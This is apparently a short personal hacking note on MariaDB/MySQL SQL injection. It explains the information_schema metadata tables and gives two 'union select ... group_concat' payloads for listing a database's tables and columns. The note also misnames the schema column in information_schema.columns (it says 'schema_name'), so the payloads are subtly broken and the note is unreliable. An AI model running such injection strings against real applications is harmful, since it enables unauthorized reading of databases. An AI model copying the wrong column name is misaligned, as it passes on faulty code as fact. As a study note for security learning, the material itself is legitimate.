 # mariadb mysql SQLi information tables
`information_schema` is name of metadata database
`information_schema.schemata` is names of databases in `schema_name` column
`information_schema.columns` is names of tables and columns 
  - column `column_name` has names of columns
  - column `table_name`
  - column `schema_name` is database name
Example union injection
`... union select 1,2,group_concat(concat(table_name, ':', column_name)) from information_schema.columns where schema_name='interesting_db'`
`... union select 1,2,group_concat(table_name, ':', column_name) from information_schema.columns where schema_name='interesting_db'`

# Related

- [20221003150987](/zet/20221003150987/README.md) mariadb mysql SQLi
- ~/kb/hacking/methodology/sqli-manual-mysql-payloads.md

Tags:

    #hacking #sqli 
